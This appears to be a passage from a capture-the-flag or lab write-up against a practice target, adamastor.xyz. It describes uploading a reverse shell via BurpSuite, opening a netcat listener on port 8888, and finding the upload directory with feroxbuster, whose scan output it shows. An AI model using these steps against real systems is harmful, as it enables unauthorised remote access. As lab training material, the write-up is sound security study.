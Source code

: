 [*] The complete upload process will look like this in BurpSuite:

![Recording 2024-03-29 004517](https://github.com/z0ne323/Adamastor/assets/80288433/dcb5e3bb-0385-4acb-a508-470b04d9e94c)

Alright, nice ! Now that our reverse shell got uploaded on the server, we still need to find the directory where the files are getting uploaded, but before fuzzing the website for directories, let's set up a listener on the port we configured within our reverse shell. 
I'll do it like that:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888          
listening on [any] 8888 ...
```

Then as we saw from the homepage, let's use `feroxbuster` to find our directory like so:

```
┌──(kali㉿kali)-[~]
└─$ feroxbuster --url http://adamastor.xyz --wordlist /usr/share/wordlists/dirb/big.txt
                                                                                                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.2
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://adamastor.xyz
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirb/big.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.2
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET     1511l     7329w   614888c http://adamastor.xyz/bugs_bunny.png
301      GET        9l       28w      332c http://adamastor.xyz/Database_Administration => http://adamastor.xyz/Database_Administration/
200      GET      827l     5550w   521692c http://adamastor.xyz/Database_Administration/Lion.jpg
200      GET      308l     3069w   238577c http://adamastor.xyz/adamastor_logo.ico
200      GET       27l       99w      888c http://adamastor.xyz/
200      GET        1l        4w       16c http://adamastor.xyz/Database_Administration/test.txt
[####################] - 8s     20477/20477   0s      found:6       errors:1      
[####################] - 5s     20469/20469   3769/s  http://adamastor.xyz/ 
[####################] - 7s     20469/20469   2922/s  http://adamastor.xyz/Database_Administration/ => Directory listing 
```
